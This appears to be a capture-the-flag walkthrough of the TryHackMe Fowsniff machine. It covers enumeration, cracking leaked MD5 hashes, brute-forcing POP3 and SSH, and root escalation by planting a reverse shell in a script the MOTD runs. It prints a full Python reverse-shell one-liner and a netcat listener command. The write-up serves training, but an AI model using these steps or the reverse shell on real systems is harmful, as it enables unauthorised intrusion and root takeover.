 # Fowsniff CTF

Difficulty: Easy

![](https://tryhackme-images.s3.amazonaws.com/room-icons/97b218eed9688e9a5cbe136714b86288.jpeg)


# Introduction

This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

This will be structured to go through what you need to do, step by step. Make sure you are [connected to our network](http://tryhackme.com/access)

Credit to [berzerk0](https://twitter.com/berzerk0) for creating this machine. This machine is used here with the explicit permission of the creator <3

# Enumeration
First off we kick off our recon with an nmap scan to discover open ports and services running on the target machine.

Nmap scan result:

![](attachments/20240108155706.png)

Here we can see there are a number of ports discovered and we have some open ports. First up let's checkout the website on port 80.

![](attachments/20240108155841.png)

reading through the webpage we can see the company has suffered a data breach and some credentials have been exposed. We also have some vital info on the webpage.

![](attachments/20240108160134.png)

Let's take a look at their twitter/X page:

![](attachments/20240108160344.png)

We have a username and what seems to be a password hash for the sysadmin which can later be cracked. We also have a pastebin link, let's take a look.

![](attachments/20240108160531.png)

We have a backup for password dump. Navigating to the link:

![](attachments/20240108160713.png)

We have the MD5 password hashes and their respective usernames.

Time to crack these hashes with JohntheRipper:

![](attachments/20240108161007.png)

we now have the passwords for the users.

Going back to tryhackme, Question 6 asks:

Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?
![](attachments/20240109152402.png)

After setting the appropriate options: 
USER_FILE - create a separate file for the usernames captured and set it using `set USER_FILE usernames.txt`
PASS_FILE - create a separate file for the passwords captured and set it using `set PASS_FILE passwords.txt`
RHOSTS - Target IP address `set RHOST <IP>`
Then run it using `exploit`

![](attachments/20240109152329.png)
We successfully get a hit and can login using the credentials

**Question**: Can you connect to the pop3 service with her credentials? What email information can you gather?

Using netcat:

![](attachments/20240109153011.png)

**Question**: Looking through her emails, what was a temporary password set for her?

![](attachments/20240109153416.png)

**Question**: In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.

If you're lazy like me LOL you can easily just use hydra to get this if you're stuck.

![](attachments/20240109154352.png)

Using the list of usernames and  the known password we get our answer

# Initial Access

![](attachments/20240109154601.png)

**Question**: Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?

![](attachments/20240109154744.png)

Using this command `find / -type f -group users -perm /g=x 2>/dev/null` we can find he file:

![](attachments/20240109154948.png)

# Privilege Escalation

**Question**: Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

Python Reverse Shell:

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`
Other reverse shells: [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


![](attachments/20240109163053.png)

**Instructions**:

If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!

Here's the banner always displayed on every login:

![](attachments/20240109162512.png)

Taking a look at the **/etc/update-motd.d/00-header**

![](attachments/20240109162612.png)

we can see it executes this script so we should expect to catch a shell when we try to re-login. Let's try that, First up setup a netcat listener using `nc -lvnp <PORT>` 

![](attachments/20240109162751.png)

we have root access!

![](attachments/20240109162937.png)

GGs 🤝. Thanks for Reading and Have a nice day!